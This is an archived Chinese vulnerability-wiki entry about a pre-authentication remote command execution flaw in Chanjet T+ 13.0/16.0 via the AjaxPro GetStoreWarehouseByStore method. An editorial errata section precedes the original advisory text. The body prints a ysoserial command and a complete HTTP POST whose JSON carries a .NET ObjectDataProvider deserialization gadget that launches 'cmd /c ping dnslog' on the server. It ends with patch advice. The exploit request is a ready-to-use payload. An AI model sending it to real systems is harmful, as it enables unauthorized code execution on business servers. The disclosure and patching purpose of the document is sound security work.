






# 畅捷通 T+ 远程命令执行漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：畅捷通T+ AjaxPro
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：13/16版本粗无build补丁编号，修复链接商品页非精确公告
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. actorId或archivesId不能为空只是业务错误，不能单独判RCE成功
2. 实际DNS回连证据应独立明确
3. HTTP缺头体空行
4. 13/16版本粗无build补丁编号，修复链接商品页非精确公告
5. payload ping dnslog为占位且依出网
6. 保留GetStoreWarehouseByStore参数和来源

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/RjzeOi4JLUL_djBOoQ2sJA>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/RjzeOi4JLUL_djBOoQ2sJA)

**漏洞简介  
**

用友畅捷通 Tplus 组件存在远程代码执行漏洞，漏洞威胁等级：高危，能造成远程代码执行。

用友畅捷通 Tplus 存在前台远程代码执行漏洞，攻击者可利用 GetStoreWarehouseByStore 方法注入序列化的 payload，执行任意命令。最终造成服务器敏感性信息泄露或代码执行。  

**漏洞影响范围**：

目前受影响的版本：

畅捷通 Tplus 13.0 

畅捷通 Tplus 16.0

**漏洞复现**

使用 ysoserial.exe 生成 payload

```
ysoserial.exe -g ObjectDataProvider -f JavaScriptSerializer -c "ping dnslog" -raw

```



使用 yakit 发送 payload，响应 "actorId 或 archivesId 不能为空" 说明利用成功  

```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5666.197 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
X-Ajaxpro-Method: GetStoreWarehouseByStore
Content-Type: text/plain
Content-Length: 553
{
 "storeID":{
  "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
  "MethodName":"Start",
  "ObjectInstance":{
   "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
   "StartInfo":{
    "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
    "FileName":"cmd",
    "Arguments":"/c ping dnslog"
   }
  }
 }
}

```



查看 dnslog，收到请求

**工具自动化利用**







**漏洞修复建议**

当前官方已发布安全补丁，建议受影响的用户及时联系产商安装安全补丁。链接如下：

https://www.chanjetvip.com/product/goods/

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
